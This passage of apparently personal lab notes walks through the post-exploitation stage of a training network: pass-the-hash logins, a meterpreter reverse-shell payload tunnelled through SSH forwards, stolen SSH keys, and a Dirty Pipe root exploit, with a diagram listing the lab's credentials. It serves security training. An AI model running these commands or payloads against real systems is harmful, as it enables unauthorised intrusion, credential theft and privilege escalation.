proxychains evil-winrm -i 172.16.8.3 -u Administrator -H fd1f7e5564060258ea787ddbb6e6afa2

type C:\Users\Administrator\Desktop\flag.txt
# 7c09eb1fff981654a3bb3b4a4e0d176a
```

**Q2 answer:** `7c09eb1fff981654a3bb3b4a4e0d176a`
**Q3 answer:** `fd1f7e5564060258ea787ddbb6e6afa2`

🔁 Similar to: [[Active Directory#DCSync|secretsdump DCSync]] and [[Active Directory#Pass-the-Hash|PtH via evil-winrm]] in the AD appendix.

---

## AEN.10. Post-Exploitation — MGMT01 (172.16.9.25)

### Q1: Reach the 172.16.9.0/23 subnet — double-hop pivot

The challenge: you're on Kali, DC01 is on 172.16.8.0/16 (reachable via proxychains), and MGMT01 is on 172.16.9.0/23 (only reachable via DC01). You need a two-hop tunnel.

**Approach: SSH local forward + SSH reverse forward + meterpreter autoroute**

```bash
# Terminal 1: SSH local forward — expose DC01's WinRM port locally
ssh -i id_rsa -L 5985:172.16.8.3:5985 root@STMIP

# Terminal 2: SSH reverse forward — bounce meterpreter callback from DC01 → Kali
# DC01 will call back to 172.16.8.120:1234, which SSH tunnels back to Kali:8443
ssh -i id_rsa -R 1234:PWNIP:8443 root@STMIP
```

Connect to DC01 via the local forward:

```bash
evil-winrm -i 127.0.0.1 -u Administrator -H fd1f7e5564060258ea787ddbb6e6afa2
```

Discover new subnet:

```powershell
ipconfig /all
# Ethernet1: 172.16.9.3 / 255.255.254.0

# Ping sweep
1..100 | % {"172.16.9.$($_): $(Test-Connection -count 1 -comp 172.16.9.$($_) -quiet)"}
# 172.16.9.25: True
```

Generate meterpreter payload that calls back to DMZ01's internal IP (which SSH -R will forward to Kali:8443):

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=172.16.8.120 \
  LPORT=1234 \
  -f exe -o dc_shell.exe
```

On Kali, start the handler (listening on 8443, the SSH -R target):

```bash
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 8443
run
```

Upload and execute from evil-winrm:

```powershell
upload "/home/kali/dc_shell.exe"
.\dc_shell.exe
```

Expected: meterpreter session opens on Kali.

```bash
# Add route to 172.16.9.0/23 via this session
run autoroute -s 172.16.9.0/23

bg
use auxiliary/server/socks_proxy
set SRVPORT 9050
set VERSION 4a
run
```

Find SSH key for MGMT01 access:

```powershell
# From evil-winrm on DC01:
download "C:\Department Shares\IT\Private\Networking\ssmallsadm-id_rsa" ./ssmallsadmKey
```

```bash
chmod 600 ssmallsadmKey
proxychains ssh -i ssmallsadmKey ssmallsadm@172.16.9.25

cat flag.txt
# 3c4996521690cc76446894da2bf7dd8f
```

**Q1 answer:** `3c4996521690cc76446894da2bf7dd8f`

> 📸 Screenshot: ipconfig showing 172.16.9.3 on DC01, meterpreter session opening, SSH to MGMT01, flag read

**Why the double-hop works:**
- Kali → SSH -L 5985 → DMZ01 → DC01:5985 (evil-winrm works on 127.0.0.1)
- DC01 → meterpreter payload → calls 172.16.8.120:1234
- DMZ01 SSH -R 1234 → forwards to Kali:8443 (meterpreter handler)
- Kali meterpreter autoroute → proxychains routes 172.16.9.0/23 via DC01 session

🔁 Similar to: [[Port Redirection and SSH Tunneling#SSH Remote Port Forward|SSH -R remote forward]] + [[Port Redirection and SSH Tunneling#Meterpreter autoroute|meterpreter autoroute]] in the pivoting appendix.

### Q2: Root via Dirty Pipe — MGMT01

```bash
uname -a
# Linux MGMT01 5.10.0-051000-generic (Dec 2020)
# Vulnerable to CVE-2022-0847 (Dirty Pipe) — kernel 5.8 to 5.17
```

```bash
# On Kali:
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
# Copy exploit-2.c content to clipboard
cat CVE-2022-0847-DirtyPipe-Exploits/exploit-2.c | xclip -se c
```

On MGMT01 (paste the source):

```bash
nano exploit.c   # paste exploit-2.c content
gcc exploit.c -o dirtypipe
chmod +x dirtypipe

# Find a SUID binary to target
find / -perm -4000 2>/dev/null
# /usr/lib/openssh/ssh-keysign (among others)

./dirtypipe /usr/lib/openssh/ssh-keysign
# [+] hijacking suid binary..
# [+] dropping suid shell..
# [+] restoring suid binary..
# [+] popping root shell..

cat /root/flag.txt
# 206c03861986c0e264438cb6e8e90a19
```

**Q2 answer:** `206c03861986c0e264438cb6e8e90a19`

🔁 Similar to: [[Linux Privilege Escalation#Dirty Pipe CVE-2022-0847|Dirty Pipe exploit]] in the Linux PrivEsc appendix.

---

## Full Attack Chain (Overview)

```mermaid
flowchart TD
    A["Nmap banner grab\nDIG AXFR zone transfer\nffuf vhost discovery"] --> B["FTP anon + 9 vhost exploits\n(IDOR/Verb Tamper/WP/SQLi/XSS/SSRF/CMDi)"]
    B --> C["monitoring.inlanefreight.local\nCMD injection → socat shell\nwebdev@dmz01"]
    C --> D["aureport --tty\n→ srvadm:ILFreightnixadm!"]
    D --> E["sudo openssl GTFOBins\n→ root SSH key\n→ root@dmz01"]
    E --> F["SSH -D 9050 pivot\nNFS mount DEV01\n→ Administrator:D0tn31Nuk3R0ck$$@123"]
    F --> G["DNN SQL Console xp_cmdshell\nASP webshell upload\nPrintSpoofer → SYSTEM on DEV01"]
    G --> H["reg save SAM/SYSTEM/SECURITY\nsecretsdump LOCAL\n→ hporter:Gr8hambino!"]
    H --> I["RDP DEV01 as hporter\nSnaffler → SQL Express Backup.ps1\n→ backupadm:!qazXSW@"]
    I --> J["Kerberoast → backupjob:lucky7\nevil-winrm MS01 as backupadm\nunattend.xml → ilfserveradm:Sys26Admin"]
    J --> K["RDP MS01\nSysaxAutomation file trigger\n→ local admin"]
    K --> L["Inveigh LLMNR\n→ mpalledorous:1squints2"]
    L --> M["Set-DomainObject fake SPN ttimmons\nTargeted Kerberoast → Repeat09\nAdd-DomainGroupMember Server Admins"]
    M --> N["DCSync → Administrator hash\nevil-winrm DC01 as Administrator"]
    N --> O["ipconfig → 172.16.9.0/23\nSSH -R + meterpreter autoroute\nSSH key from DC01 share\n→ ssmallsadm@MGMT01"]
    O --> P["uname → Dirty Pipe\ngcc exploit → root@MGMT01"]
```



---

## Related Boxes

This module is itself the capstone, but individual techniques map to boxes where each was practiced in isolation:

- **Traverxec / Nibbles** (HTB). Linux privesc from webshell (GTFOBins + sudo)
- **Forest** (HTB), AS-REP roasting, DCSync, AD compromise chain
- **Active** (HTB). Kerberoasting with cracked SPN hash
- **Scrambled** (HTB), targeted Kerberoast with fake SPN (closest parallel to AEN.9 Q1)
- **Return** (HTB), network printer credential capture, lateral movement
- **Support** (HTB). LDAP cred hunt, BloodHound, Add-DomainGroupMember chain
- **Antique / Magic** (HTB), web exploitation to initial access, Linux PrivEsc
- **Devel** (HTB). IIS file upload RCE chain

For boxes where the complete external-to-DA chain is practiced end-to-end: HTB Pro Labs (RastaLabs, Offshore, Cybernetics) are the equivalent of this module in box form.

---

#### Tags: #Capstone #AttackChain #ExternalRecon #DNSZoneTransfer #VHostDiscovery #FTPAnonymous #IDOR #HTTPVerbTampering #WordPressRCE #SQLi #StoredXSS #SSRF #PDFInjection #CommandInjection #socat #AuditLogs #aureport #LinuxPrivEsc #openssl #GTFOBins #Pivoting #NFS #DNN #DotNetNuke #PrintSpoofer #SeImpersonatePrivilege #SAMDump #secretsdump #Snaffler #Kerberoasting #SysaxAutomation #Inveigh #LLMNR #DCSync #DirtyPipe #CVE20220847 #HTBSupplementary #InlaneFreight
